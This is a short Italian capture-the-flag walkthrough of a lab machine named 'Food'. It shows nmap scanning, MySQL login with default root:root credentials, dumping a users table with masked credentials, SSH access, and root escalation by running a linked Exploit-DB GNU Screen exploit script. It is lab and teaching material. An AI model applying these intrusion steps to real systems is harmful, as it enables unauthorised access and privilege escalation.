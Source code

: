 # FOOD

### enum
si parte sempre con uno scan.
```bash
nmap food.thm -sV -sC 
```

### servizio sql

ho notato che è aperto un servizio sql adiamo ad analizzarlo meglio con nmap.

```bash
nmap food.thm -sV --script *sql* 
```
quando nmap finisce lo scan ci restituisce dati molto utili, per esempio che l'utente di mysql è root:root
e questo ci da carta bianca sulla conessione all'sql.

quindi mi collego all'sql.
```bash
mysql -u root -h 10.10.79.244 -p
```
successivamente mi faccio dumpare tutti i database presenti.
```bash
show databases;
```
```bash
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| users              |
+--------------------+
```

ecco la tables che ci serve andiamo a prenderla.
```bash
use users
```
e successivamente. 
```bash
show tables;
```

adesso abbiamo trovato una tables di nome user andiamo a leggere cosa c'è dentro.
```bash
SELECT * FROM User;
```


ramen    ***************                       
flag     ************************************* 


ecco un utente con la sua password e un flag!

entriamo in ssh.

## ssh
```bash
ssh ramen@food.thm
```
controllate in giro ci dovrebbero essere altre flag che potete prendere.

facendo un controllo dei permessi che abbiamo.
ho notato che possiamo fare davvero molto poco, quindi sono andato a cercare le vulnerabilità per quanto riguarda GNU, e ne ho trovata una davvero interessate
andiamo ad utilizzarla.

## PRIVESC

https://www.exploit-db.com/exploits/41154 ho usato questo exploit per fare priv esc,
questo exploit sfrutta un autenticazione di livello maggiore(root) e ci permette tramite un vulnerabilità presente in 
quest'ultima di fare priv esc.

una volta scaricato lo script lo passiamo sulla macchina il gioco è fatto.
```bash
chmod +x script.sh
./script.sh
```
